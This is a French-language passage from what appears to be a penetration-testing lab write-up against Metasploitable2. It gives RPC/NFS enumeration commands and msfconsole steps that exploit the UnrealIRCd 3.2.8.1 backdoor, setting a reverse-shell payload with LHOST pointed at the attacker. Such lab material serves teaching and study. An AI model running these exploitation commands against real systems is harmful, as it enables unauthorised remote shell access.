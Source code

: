 ```bash
rpcinfo -p <IP machine Metasploit>
```

```bash
showmount -e <IP machine Metasploit>
```

<p align="center">
    <img src="rpc_showmount.png" alt="rpc_showmount" style="width: 200px;" />
</p> 

## Backdoors

Sur le port 6667, Metasploitable2 exécute le démon IRC UnrealRCD. Cette version contient une *backdoor* qui est passée inaperçue pendant des mois - elle se déclenche en envoyant les lettres "AB" suivies d'une commande système au serveur sur n'importe quel port d'écoute. Metasploit dispose d'un module permettant d'exploiter cette *backdoor* afin d'obtenir un shell interactif : 

```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST <IP machine Metasploit>
exploit
```

Il est parfois nécessaire de configurer le payload et le LHOST, pour ce faire :

```bash
set payload cmd/unix/reverse
set LHOST <IP attaquant>
```

<p align="center">
    <img src="backdoor_conf.png" alt="backdoor_conf" style="width: 400px;" />
</p> 
